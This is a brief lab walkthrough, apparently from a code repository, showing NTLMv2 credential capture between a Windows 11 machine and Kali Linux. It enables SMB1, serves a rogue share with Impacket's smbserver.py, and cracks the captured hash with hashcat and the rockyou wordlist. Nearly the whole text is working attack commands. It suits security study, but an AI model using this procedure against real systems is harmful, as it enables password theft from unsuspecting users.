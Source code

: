 # Steps:
1. In Win11 `Enable-WindowsOptionalFeature -Online -FeatureName SMB1Protocol -All`.
1. In Kali `sudo mkdir /tmp/fakeshare`.
1. In Kali `sudo sh -c 'echo "Test" > /tmp/fakeshare/test.txt`.
1. In Kali `python3 /usr/share/doc/python3-impacket/examples/smbserver.py SHARE /tmp/fakeshare -smb2support`.
1. In Win11, browse `\\192.168.8.10\SHARE` in file explorer.
1. In Kali `Save the captured NTLMv2 authentication hash into ~/Desktop/ntlmv2.hash`.
1. In Kali `hashcat -m 5600 ~/Desktop/ntlmv2.hash /usr/share/wordlists/rockyou.txt`.

# Results
The result will be listed as Candidates.#1....: Password -> Password


